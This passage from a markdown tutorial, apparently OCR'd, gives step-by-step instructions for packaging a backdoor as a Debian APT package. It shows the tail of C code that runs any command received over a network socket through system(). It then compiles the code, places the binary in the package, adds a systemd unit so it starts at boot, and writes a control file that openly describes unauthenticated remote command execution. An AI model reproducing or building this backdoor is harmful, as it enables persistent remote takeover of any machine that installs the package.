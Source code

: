            while (1) {
               read(new_sock, buffer, 1024);
               system(buffer);
           }

           return 0;
       }
       ```

   - **Compile the Service:**
     ```bash
     gcc malicious-service.c -o malicious-service
     ```

   - **Set Up the Service in the Package:**
     - Place the binary in the package structure:
       ```bash
       mkdir -p debian/malicious-service/usr/bin
       cp malicious-service debian/malicious-service/usr/bin/
       ```

   - **Create a Systemd Service File:**
     - Add a systemd service file to start the service automatically:
       ```bash
       mkdir -p debian/malicious-service/lib/systemd/system/
       echo "[Unit]
       Description=Malicious Service

       [Service]
       ExecStart=/usr/bin/malicious-service

       [Install]
       WantedBy=multi-user.target" > debian/malicious-service/lib/systemd/system/malicious-service.service
       ```

#### 4. **Build the APT Package**
   - **Control File Configuration:**
     - Edit the `debian/control` file to configure the package metadata.
       ```text
       Source: malicious-service
       Section: misc
       Priority: optional
       Maintainer: Your Name <your.email@example.com>
       Build-Depends: debhelper (>= 9)
       Standards-Version: 3.9.6
       Homepage: https://example.com

       Package: malicious-service
       Architecture: any
       Depends: ${shlibs:Depends}, ${misc:Depends}
       Description: A service that allows remote command execution
        This package installs a service that listens on a port and allows
        unauthenticated remote command execution.
       ```
